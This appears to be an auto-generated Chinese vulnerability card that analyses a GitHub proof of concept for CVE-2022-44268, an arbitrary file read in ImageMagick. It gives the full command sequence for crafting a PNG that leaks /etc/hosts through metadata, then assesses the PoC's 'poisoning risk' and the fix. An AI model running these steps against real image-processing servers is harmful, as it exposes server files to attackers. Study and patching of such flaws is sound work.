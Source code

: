 ## CVE-2022-44268-ImageMagick-任意文件读取

**漏洞编号:** CVE-2022-44268

**漏洞类型:** 任意文件读取

**影响应用:** ImageMagick

**危害等级:** 高危，可能导致敏感信息泄露

**影响版本:** 7.1.0-49

**利用条件:** ImageMagick需要处理恶意构造的PNG图片，且运行ImageMagick的账户需要拥有读取目标文件的权限。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2022-44268是ImageMagick 7.1.0-49版本中存在的一个任意文件读取漏洞。当ImageMagick解析PNG图片（例如，进行resize操作）时，如果PNG图片被恶意构造，攻击者可以嵌入任意文件的内容到结果图片中。漏洞利用方式如下：

1.  **安装依赖:** 安装 `pngcrush`, `imagemagick`, `exiftool`, 和 `exiv2`。
2.  **构造恶意PNG图片:** 使用`pngcrush`命令将想要读取的文件内容嵌入到PNG图片的文本块中。例如，读取`/etc/hosts`文件：
    ```bash
    pngcrush -text a "profile" "/etc/hosts" vjp.png
    ```
3.  **验证构造:** 使用`exiv2`确认文本块已成功写入。
    ```bash
    exiv2 -pS pngout.png
    ```
4.  **触发漏洞:** 使用`convert`命令处理恶意PNG图片，生成新的图片。这将触发ImageMagick解析PNG图片，并将嵌入的文件内容写入到新的图片中。
    ```bash
    convert pngout.png gopro.png
    ```
5.  **提取文件内容:** 使用`identify -verbose`命令查看新生成的图片，文件内容将以某种形式（通常是十六进制编码）嵌入在图片元数据中。
    ```bash
    identify -verbose gopro.png
    ```
6.  **解码文件内容:** 使用Python脚本或其他工具将十六进制编码的内容解码为可读的文本。
    ```python
    python3 -c 'print(bytes.fromhex("23202f6574632f686f7374730a3132372e302e302e31096c6f63616c686f73740a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3109096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a3109096970362d616c6c6e6f6465730a666630323a3a3209096970362d616c6c726f75746572730a6475636e740a").decode("utf-8"))'
    ```

**有效性评估:**

提供的PoC代码有效，可以成功读取目标文件。通过构造特殊的PNG图片，可以欺骗ImageMagick将文件内容嵌入到输出图片中。

**投毒风险评估:**

该PoC主要提供漏洞利用方法，本身不存在明显的恶意代码。投毒风险主要体现在两个方面：

1.  **依赖包风险:** 安装脚本中使用的 `apt-get install` 命令依赖于软件源的安全性。如果软件源被篡改，可能会安装包含恶意代码的软件包。但是这个风险是所有软件安装都存在的，并非此PoC特有。
2.  **Payload构造风险:** 攻击者可能会将读取到的敏感信息发送到恶意服务器，或者利用此漏洞进行进一步的攻击。
3.  **隐蔽后门：** 在readme文件中，作者声明不负任何责任，存在免责声明，可能存在隐藏的风险。例如，通过修改命令执行过程中的参数来实现反向shell等。 考虑到以上风险，投毒风险评估为10%。这个数值相对较低，因为提供的代码主要是利用现有的工具链来完成漏洞利用，恶意行为依赖于攻击者如何使用这个PoC。

**总结:**

该漏洞允许攻击者读取服务器上的任意文件，可能导致敏感信息泄露。攻击者需要上传特制的PNG图片到使用了存在漏洞的ImageMagick版本的服务器上，并触发图片处理操作（例如resize）。修复方案是升级ImageMagick到安全版本或者禁用处理用户上传的图片的功能。

**项目地址:** [duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)

**漏洞详情:** [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268)